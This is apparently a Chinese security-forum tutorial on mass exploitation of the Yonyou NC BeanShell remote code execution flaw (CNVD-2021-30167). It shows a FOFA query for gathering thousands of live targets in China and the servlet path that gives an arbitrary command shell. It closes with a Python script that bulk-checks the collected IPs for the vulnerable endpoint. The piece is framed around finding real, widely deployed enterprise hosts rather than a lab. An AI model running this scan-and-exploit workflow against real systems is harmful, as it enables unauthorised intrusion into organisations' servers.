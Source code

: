 1.漏洞选择
------

我们可以上cnvd上看看那些通用的很多人在用的CMS,本次挖掘我选择了用友NC的BeanShell远程代码执行漏洞（CNVD-2021-30167),该漏洞也是最近才出不久,而且大家都知道用友NC还是很多企业在用的哈哈。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-26e776488185dca7c0f56d4b240f54210078e8d8.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-26e776488185dca7c0f56d4b240f54210078e8d8.png)

2.资产收集
------

这里我们使用fofa,按照第一章的,使用工具进行批量爬取,fofa规则:icon\_hash="1085941792" &amp;&amp; country="CN",也是同样的操作,导出result.csv文件把第一列数据复制存入txt文件中。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d646118d4d6bc95a5ea8a645e7f917d945f30c7c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d646118d4d6bc95a5ea8a645e7f917d945f30c7c.png)

3.编写脚本确定是否存在漏洞
--------------

### 漏洞复现:

该漏洞复现非常简单,只需要在ip后加上/servlet/~ic/bsh.servlet.BshServlet,就可以进入shell界面任意执行命令如下:  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f6f6f4d4905502a409ed25218b02d77a20e12f2e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f6f6f4d4905502a409ed25218b02d77a20e12f2e.png)

### 脚本编写:

该漏洞复现起来非常方便,这也是我选择它的原因之一,在我们在资产收集到几千个IP后,需要用脚本对它们进行验证,看是否存在该路径,当然这个脚本也很好写,毕竟复现起来简单嘛,我就随意写了一个,代码如下:

```python
# author:soufaker
# time:2021/08/17
import requests

py_str = "/servlet/~ic/bsh.servlet.BshServlet"
head = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0'
        }

success_code = []
with open('NC.txt', 'r', encoding="utf-8") as f:
    for i in f:
        if i[0:4] != 'http':
            py_url = 'http://' + (i.strip('\n')) + py_str
        else:
            py_url = (i.strip('\n')) + py_str
        print(py_url)
        try:
            x = requests.get(py_url, allow_redirects=False, headers=head, timeout=2)
            if x.status_code == 200:
                success_code.append(py_url)
                print("ok")
        except:
            print('无法连接')
            continue

print(success_code)
with open('success.txt', 'w+', encoding="utf-8") as f:
    for s in success_code:
        f.writelines(s + '\n')
```
